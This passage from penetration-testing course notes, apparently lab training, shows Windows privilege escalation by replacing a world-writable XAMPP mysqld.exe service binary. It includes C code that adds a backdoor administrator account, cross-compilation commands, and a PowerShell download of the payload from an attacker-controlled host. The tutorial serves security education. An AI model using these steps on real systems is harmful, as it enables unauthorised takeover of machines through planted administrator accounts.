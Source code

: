 Next, we'll check **mysqld.exe** from the mysql service:
```
PS C:\Users\dave> icacls "C:\xampp\mysql\bin\mysqld.exe"
C:\xampp\mysql\bin\mysqld.exe NT AUTHORITY\SYSTEM:(F)
                              BUILTIN\Administrators:(F)
                              BUILTIN\Users:(F)

Successfully processed 1 files; Failed processing 0 files
```
+ Above shows that members of the _Users_ group have the Full Access (F) permission, allowing us to write to and modify the binary and therefore, replace it

Due to the missing indicator _(I)_ preceding this permission, we know that it was set on purpose and not inherited by the parent directory
+ Administrators often set Full Access permissions when they configure a service and are not entirely sure about the required permissions
+ Setting it to Full Access avoids most permission problems, but creates a security risk as we'll show in this example

Let's create a small binary on Kali, which we'll use to replace the original **mysqld.exe**
+ The following C code will create a user named _dave2_ and add that user to the local Administrators group using the _system_ function
+ The cross-compiled version of this code will serve as our malicious binary. Let's save it on Kali in a file named **adduser.c**
``` c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```

Next, we'll cross-compile the code on our Kali machine with _mingw-64_ as we learned in the Module "Fixing Exploits"
+ Since we know that the target machine is 64-bit, we'll cross-compile the C code to a 64-bit application with **x86_64-w64-mingw32-gcc**
+ In addition, we use **adduser.exe** as argument for **-o** to specify the name of the compiled executable:
```
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

Once **adduser.exe** is cross-compiled, we can transfer it to our target and replace the original **mysqld.exe** binary with our malicious copy
+ For this, we start a Python3 web server in the output directory of **adduser.exe** on our Kali machine and use **iwr** on the target machine in a PowerShell window to download our executable file
+ In addition, we move the original **mysqld.exe** to our home directory
+ This way, we can restore the service binary after a successful privilege escalation attempt
```
PS C:\Users\dave> iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe  

PS C:\Users\dave> move C:\xampp\mysql\bin\mysqld.exe mysqld.exe

PS C:\Users\dave> move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
```
